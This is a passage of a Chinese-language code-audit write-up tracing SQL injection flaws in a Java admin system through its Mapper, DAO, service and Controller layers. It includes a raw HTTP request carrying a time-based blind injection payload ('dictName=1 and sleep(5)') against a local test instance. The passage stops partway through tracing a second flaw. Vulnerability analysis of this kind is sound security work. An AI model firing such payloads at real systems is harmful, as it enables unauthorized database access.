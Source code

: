 原理同上，根据以下路径跟踪即可  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFEgg4LZNcMIahHib6DcjZUOh8XFqdTmdQ8F85LiczoU0icGpg7iczjC6fYz6Fka2UcxKYq2DVSVicUD9Tg/640?wx_fmt=png&from=appmsg "")  
  
payload  
```
GET /api/dict?page=1&limit=10&dictName=1+and+sleep(5) HTTP/1.1
Host: 127.0.0.1:8088
Accept: application/json, text/javascript, */*; q=0.01
Cookie: JSESSIONID=D38C3BF1CBEA080C39D38E1E2508BA9A; remember-me=YWRtaW46MTcxOTc1NDQyNDUyMzplMjBjNGFmYzUwODYzN2VlZThkNWNhMDY5ZWZlODhmZA
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFEgg4LZNcMIahHib6DcjZUOhLgAU5B68HSTO3arljdAybrOaLAicMvdBWfuy7uEF0Oiag07umzJsiabicQ/640?wx_fmt=png&from=appmsg "")  
#### ancestors参数SQL注入  
  
1、Mapper层代码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFEgg4LZNcMIahHib6DcjZUOhOkiaGRXqASSlVlLHPxEHQDhP9Dz0S92cRBUDKv5U3yiacNeH7QnZdDSA/640?wx_fmt=png&from=appmsg "")  
  
2、追踪到DAO层  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFEgg4LZNcMIahHib6DcjZUOhHEf0ykRibGzGEnAdN7Oz9dpdjhOnzgPe2CAGkG8oOthLbKdd9dlragg/640?wx_fmt=png&from=appmsg "")  
  
3、实现层  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFEgg4LZNcMIahHib6DcjZUOhS1icSXgMCIAO9dLaXFHTmMhj4HT0mTdg3ssSWW9teiclEErYTicuo2OWg/640?wx_fmt=png&from=appmsg "")  
  
可以看到在实现层的  
updateParentDeptStatus()  
方法调用了  
updateDeptStatus()  
方法，我们再追踪到调用  
updateParentDeptStatus  
方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFEgg4LZNcMIahHib6DcjZUOhoGKkJWheX252jVncIJDYRnKLU6fib4SdQBdC3OuSANCFF2UZRSorIlg/640?wx_fmt=png&from=appmsg "")  
  
4、可以看到在  
updateDept()  
方法中调用了  
updateParentDeptStatus  
方法，点进  
updateDept()  
方法，来到Controller层  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFEgg4LZNcMIahHib6DcjZUOhDzAQYgXKfbUvchEyzoSjFibzZj161jCpO2lWhIh6z7hwZ1fzWLSvGhQ/640?wx_fmt=png&from=appmsg "")  
  
5、可以看到Controller层代码处理了传入的  
Mydept  
对象，处理的过程中调用  
updateDept  
方法  
  